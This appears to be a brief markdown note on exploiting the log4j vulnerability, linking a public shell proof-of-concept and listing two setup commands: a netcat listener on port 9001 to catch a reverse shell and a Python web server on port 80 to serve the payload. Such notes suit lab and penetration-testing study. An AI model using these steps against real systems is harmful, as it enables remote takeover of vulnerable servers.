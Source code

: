 ## Exploiting log4j vulnerability

### POC
https://github.com/kozmer/log4j-shell-poc

Listener
```
sudo nc -lv 9001
```

Web Server
```
sudo python3 -m http.server 80
```